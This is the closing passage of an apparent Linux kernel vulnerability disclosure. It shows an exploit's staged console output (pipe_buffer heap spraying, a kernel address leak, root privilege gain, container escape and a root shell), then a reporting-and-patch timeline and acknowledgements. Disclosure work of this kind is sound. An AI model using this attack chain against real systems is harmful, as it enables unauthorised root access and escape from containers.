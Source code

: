 ```sh
[*] Freeing sk_buff data buffer...
[*] Spraying pipe_buffer objects...
[*] Leaking and freeing pipe_buffer object...
[+] anon_pipe_buf_ops: ffffffffa1e78380
[+] kbase_addr: ffffffffa0e00000

[+] STAGE 4: Kernel code execution
[*] Spraying fake pipe_buffer objects...
[*] Releasing pipe_buffer objects...
[*] Checking for root...
[+] Root privileges gained.

[+] STAGE 5: Post-exploitation
[*] Escaping container...
[*] Cleaning up...
[*] Popping root shell...
root@theflow:/# id
uid=0(root) gid=0(root) groups=0(root)
root@theflow:/#
```

## Timeline

2021-04-06 - Vulnerability reported to security@kernel.org.  
2021-04-13 - Patch merged upstream.  
2021-07-07 - Public disclosure.

## Thanks

Eduardo Vela  
Francis Perron  
Jann Horn
